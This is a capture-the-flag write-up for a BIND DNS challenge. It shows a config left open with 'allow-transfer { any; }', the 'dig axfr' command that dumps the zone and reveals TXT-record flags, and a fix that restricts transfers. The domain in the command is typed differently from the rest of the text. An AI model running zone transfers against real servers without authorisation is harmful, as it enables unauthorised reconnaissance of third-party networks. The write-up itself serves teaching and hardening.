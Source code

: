 ## Writeup

The project is a DNS service based on [BIND](https://en.wikipedia.org/wiki/BIND) solution with missing 
configuration issue.

In this article IP 192.168.2.5 using as example!

### Vulnerable. Missing configuration (zone transfer)

#### Summary

The main settings are located in the configuration file 'named.conf':
```
options {
    directory "/var/bind";

    version "private";

    listen-on port 53 { any; };
    listen-on-v6 { none; };

    allow-transfer { any; };
    pid-file "/var/run/named/named.pid";

    forwarders {};

    allow-recursion { none; };
    recursion no;
};


zone "rdg-ctf2023.local" {
    type master;
    file "/etc/bind/zones/rdg-ctf2023.zone";
};
```

Let's pay attention to the attribute 'allow-transfer' with value 'any'. The setting defines an address_match_list of 
hosts that are allowed to transfer the zone information from this server.

DNS zone transfers, also known as AXFR (Authoritative Zone Transfer) requests, are used to replicate and synchronize 
DNS data across multiple DNS servers. It allows a secondary DNS server to obtain a complete copy of the DNS zone from 
the primary DNS server.

When a DNS server is misconfigured and allows unrestricted zone transfers. A threat actor could perform a zone transfer 
and gain access to sensitive information, such as a list of all domain names and associated IP addresses within the zone. 
This information can be exploited for various purposes, including reconnaissance, data harvesting or targeted attacks.

In our case, this allows an attacker to take the zone 'rdg-ctf2023.local' with a single command. Use the next syntax:
```bash
dig axfr @<DNS_IP> <DOMAIN>
```
With real values:
```bash
dig axfr rdg-ctf2033.local @192.168.2.5
```

As a result, we got the contents of the zone and found the flags in the TXT resource records: 

```bash
rdg-ctf2023.local.      86400   IN      SOA     ns1.rdg-ctf2023.local. root.rdg-ctf2023.local. 439 86400 3600 604800 3600
rdg-ctf2023.local.      86400   IN      NS      ns1.rdg-ctf2023.local.
06gbOcl.rdg-ctf2023.local. 86400 IN     TXT     "DXF8EOA0IF8CJC37SJWGZ56WIP72AWW="
... <truncated> ...
0GobhwD.rdg-ctf2023.local. 86400 IN     TXT     "DNOBU4QTIDQEX46WIA596VT76XW59F3="
1fidqUM.rdg-ctf2023.local. 86400 IN     TXT     "D583O1OIRUANZVPCC2JZ1694BT80YM0="
1Qko9Yf.rdg-ctf2023.local. 86400 IN     TXT     "DSXVQ2TTD2G1M87AOKYTCIHCF2GFJNL="
```

#### How to fix?

BIND makes it possible to restrict the IPs authorized to request a zone transfer by means of the
command allow-transfer.
```bash
//named.conf
options {
    // Permits zone transfer only for 192.168.200.1
    // Also you can use value 'none;' to deny transfer for everybody
    allow-transfer { 192.168.200.1; };
}
```

But this method is not effective in a well-worked-out spoofing attack. Additional recommendations will be given 
in useful sources.

#### Useful resources

- How DNS works for beginners: https://howdns.works/
- Bind benchmarks from CIS: https://www.cisecurity.org/benchmark/bind